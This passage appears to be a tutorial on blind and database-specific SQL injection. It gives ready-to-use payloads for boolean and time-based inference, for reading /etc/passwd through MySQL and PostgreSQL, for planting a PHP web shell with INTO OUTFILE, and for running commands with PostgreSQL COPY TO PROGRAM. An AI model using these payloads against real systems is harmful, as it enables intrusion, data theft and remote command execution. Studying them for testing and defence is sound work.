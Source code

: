 ## Blind SQL Injection Mastery

When applications don't display error messages or query results, blind injection techniques become essential.

### Boolean-Based Blind Injection

This technique relies on observing application behavior changes:

```sql
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a'--
```

If the page loads normally, the first character of the username is 'a'.

### Time-Based Blind Injection

When boolean-based techniques fail, time delays can reveal information:

```sql
'; IF (1=1) WAITFOR DELAY '00:00:05'--
' AND IF(1=1,SLEEP(5),0)--
```

These payloads cause observable delays when conditions are true.

## Database-Specific Techniques

### MySQL Exploitation

MySQL offers unique functions for advanced exploitation:

```sql
-- Version fingerprinting
' AND @@version LIKE '8%'--

-- File reading (requires FILE privilege)
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3--

-- Writing web shells
' UNION SELECT 1,2,'<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'--
```

### PostgreSQL Advanced Features

PostgreSQL provides powerful functions for exploitation:

```sql
-- Command execution
'; COPY (SELECT '') TO PROGRAM 'id'--

-- Large object manipulation
' UNION SELECT 1,lo_import('/etc/passwd'),3--
```
